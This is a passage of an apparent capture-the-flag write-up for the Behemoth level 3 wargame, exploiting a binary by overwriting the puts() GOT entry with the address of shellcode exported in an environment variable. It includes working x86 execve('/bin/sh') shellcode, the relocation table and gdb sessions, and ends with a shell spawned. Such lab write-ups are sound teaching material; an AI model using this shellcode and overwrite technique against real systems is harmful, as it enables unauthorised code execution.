 Here we could try to overwrite the call to *puts()* with an address contained in the environment variables. First we need to find the address call and export a shellcode.

```bash
behemoth3@behemoth:/behemoth$ objdump -R behemoth3

behemoth3:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049794 R_386_GLOB_DAT    __gmon_start__
080497c0 R_386_COPY        stdin@@GLIBC_2.0
080497a4 R_386_JUMP_SLOT   printf@GLIBC_2.0
080497a8 R_386_JUMP_SLOT   fgets@GLIBC_2.0
080497ac R_386_JUMP_SLOT   puts@GLIBC_2.0
080497b0 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0

behemoth3@behemoth:/behemoth$ export SHELLCODE=$(python -c 'print 20 * "\x90" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + 20 * "\x90"')
```

The *puts()* call is at `080497ac`. Now let's find the **SHELLCODE** address.

```nasm
behemoth3@behemoth:/behemoth$ gdb -q behemoth3
Reading symbols from behemoth3...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) x/s *((char **)environ)
No symbol table is loaded.  Use the "file" command.
(gdb) break *main
Breakpoint 1 at 0x804847b
(gdb) x/s *((char **)environ)
No symbol table is loaded.  Use the "file" command.
(gdb) run
Starting program: /behemoth/behemoth3

Breakpoint 1, 0x0804847b in main ()
(gdb) x/s *((char **)environ)
0xffffd826:	"LC_ALL=en_US.UTF-8"

...[removed]...

0xffffde62:	"SHELLCODE=", '\220' <repeats 20 times>, "\061\300Ph//shh/bin\211\343\211\301\211°\v̀1\300@̀", '\220' <repeats 20 times>
(gdb)
```

The shellcode is at `0xffffde62`. This value need to be wrote at `0x080497ac`. Let's write the PoC :

```nasm
(gdb) break *main+81
Breakpoint 1 at 0x80484cc
(gdb) run
Starting program: /behemoth/behemoth3
Identify yourself: 123
Welcome, 123

Breakpoint 1, 0x080484cc in main ()
(gdb) x/wx 0x080497ac
0x80497ac:	0x08048356

0x80497ac:	0xffffde62
(gdb) conti
Continuing.
process 18577 is executing new program: /bin/dash
```